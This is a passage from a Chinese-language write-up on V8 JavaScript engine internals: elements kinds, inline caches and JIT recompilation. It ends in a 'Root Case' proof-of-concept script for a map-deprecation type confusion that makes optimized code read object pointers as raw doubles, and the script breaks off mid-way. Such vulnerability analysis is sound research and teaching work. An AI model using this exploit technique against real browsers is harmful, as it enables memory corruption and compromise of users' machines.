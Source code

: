 如果我们有一个fast array（如上图的左图），然后将一个复杂对象（如一个数组）分配给其中一个element，则整个array将会变成一个boxed类型，改array上的所有值都将更改为boxed。

### V8 optimization

V8编译器首先分析javascript代码，生成JIT编译的代码，并对使用内联缓存的类型进行非常宽松的假设。
下面的解释来自谷歌的V8文档:
V8在第一次执行时直接将JavaScript源代码编译成机器码。没有中间字节码，没有解释器。属性访问是由内联缓存代码处理的，当V8执行....时，可能会被其他机器指令修补
V8通过预测这个[对象的]类也将用于在同一段代码中访问的所有未来对象，来优化属性访问，并使用类中的信息来修补内联缓存代码以使用隐藏类。如果V8正确预测了该属性的值，则在一次操作中分配(或获取)该属性的值。如果预测不正确，V8会对代码进行修补，删除优化。”
因此，编译器只编译适用于特定类型的代码。如果这个代码段(或函数)下次执行的类型与已编译的类型不匹配，就会发生“内联缓存丢失”，导致编译器重新编译代码。
 
举例子时间：
```
f（arg_obj）{ 
	return arg_obj.x; 
} 
var o1 = {“ x”：1，“ y”：2} 
var o2 = {“ x”：1，“ t”：2}
```
当o1首先被调用时，编译器将会生成如下代码：
```
(ecx holds the argument)
cmp [ecx + <hidden class offset>], <cached o1 class>
jne <inline cache miss> - this will execute compiler code
mov eax, [ecx + <cached x offset>]
```
当使用o2再次调用该函数时，就会发生高速缓存未命中，并且该函数的JIT代码将由编译器代码更改。


### Root Case

```
<script>
// 将被优化以更改元素类型的函数。
function change_elements_kind(a){
	a[0] = Array;
}
// 该函数将被优化为直接作为未装箱读取值(因此将读取指针作为值)。
function read_as_unboxed(){
    return evil[0];
}
// First, 让函数被编译
change_elements_kind({});
// 构造一个新对象，此时有一个map M0
map_manipulator = new Array(1.0,2.3);
// 添加一个新属性‘x’. M0 will now have an ‘x’ transition to the new one, M1.
map_manipulator.x = 7;
// 对该对象调用change_elements_kind函数. A version of the function for this M1 will be compiled.
change_elements_kind(map_manipulator);
// 更改对象的'x'属性类型。从M0到M1的先前的“ x”过渡将被删除，并且M1将被弃用。生成一个新的映射M2，从M0开始有一个新的“ x”过渡。
map_manipulator.x = {};
// 生成我们将用于漏洞的对象。确保它属于M2地图。
evil = new Array(1.1,2.2);
evil.x = {};
x = new Array({});
//优化change_elements_kind。
// 将调用ReduceElementAccess，然后依次调用ComputeElementAccessInfos。
// 下面的代码段（与以前相同），我们可以看到代码遍历了所有映射（注意：这些是已经在此函数中使用并已编译的映射），并尝试更新每个映射。
// 到达M1时，TryUpdate会发现它已被弃用，并寻找合适的未弃用的映射并找到M2，因为它具有相同的属性。 
//因此，将从M2创建一个元素类型过渡。

for(var i = 0;i<0x50000;i++){
    change_elements_kind(x);
}
// 优化read_as_unboxed。Evil当前是M2映射的一个实例，因此将
```